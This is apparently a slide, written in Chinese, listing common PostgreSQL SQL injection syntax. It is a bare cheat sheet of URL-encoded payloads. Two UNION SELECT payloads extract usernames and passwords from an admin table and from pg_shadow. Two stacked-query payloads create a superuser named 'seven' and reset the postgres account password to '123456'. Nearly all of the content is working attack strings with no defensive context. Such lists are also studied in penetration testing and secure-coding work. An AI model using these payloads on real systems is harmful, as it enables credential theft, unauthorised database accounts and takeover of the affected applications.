

# postgresql数据库注入常用语法
列字段内容
+union+select+null,name||pass,null+from+admin
查看postgresql数据库的账号密码
+union+select+null,usename||chr(124)||passwd,null+from+pg_shadow
创建用户
;create+user+seven+with+superuser+password+'seven'--
修改postgres的用户密码为123456
;alter+user+postgres+with+password+'123456'--